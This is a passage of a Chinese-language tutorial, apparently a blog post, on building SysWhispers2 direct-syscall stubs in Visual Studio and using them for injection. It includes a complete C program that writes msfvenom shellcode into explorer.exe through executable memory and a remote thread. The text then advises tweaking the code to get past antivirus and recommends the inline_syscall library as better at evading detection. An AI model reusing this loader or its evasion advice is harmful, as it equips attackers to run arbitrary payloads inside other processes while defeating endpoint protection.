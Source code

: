   1. 将生成的 H/C/ASM 文件复制到项目文件夹中。

  2. 在 Visual Studio 中，转到 Project → Build Customizations... 并启用 MASM。

  3. 在解决方案资源管理器中，将 .h 和 .c/.asm 文件分别作为头文件和源文件添加到项目中。

  4. 转到 ASM 文件的属性，并将 Item Type 设置为 Microsoft Macro Assembler。

  5. 确保项目平台设置为 x64，目前不支持 32 位项目。

  6. 现在可以使用Nt* 函数，例如：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <Windows.h>#include "lib/syscalls.h"  
    int main(int argc, char* argv[]){  // PID of explorer.exe  DWORD pid = 11256;  
      // msfvenom -p windows/x64/exec CMD=calc EXITFUNC=thread -f c   unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x00";  SIZE_T shellcodeSize = sizeof(shellcode);  
      HANDLE hProcess;  OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes) };  CLIENT_ID clientId = { (HANDLE)pid, NULL };  NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);  
      LPVOID baseAddress = NULL;  NtAllocateVirtualMemory(hProcess, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);  
      NtWriteVirtualMemory(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);  
      HANDLE hThread;  NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);  
      NtClose(hProcess);  NtClose(hThread);  
      return 0;}

但是现在SysWhispers2 已经被杀软标记了，但是杀软标记也十分有限的，改改还是能过的。

SysWhispers2不行的话还有另一个库inline_syscall，相对免杀效果比较好，因为热度不是SysWhispers2那么高。

本质的话，还是通过优化、可内联且易于使用的方式生成直接系统调用指令的库，使用如下：

1.先导入头文件

  * in_memory_init.hpp

  * inline_syscall.hpp

  * inline_syscall.inl

2.`jm::init_syscalls_list()`然后在使用`INLINE_SYSCALL(function_pointer)`和`INLINE_SYSCALL_T(function_type)`宏之前调用初始化函数
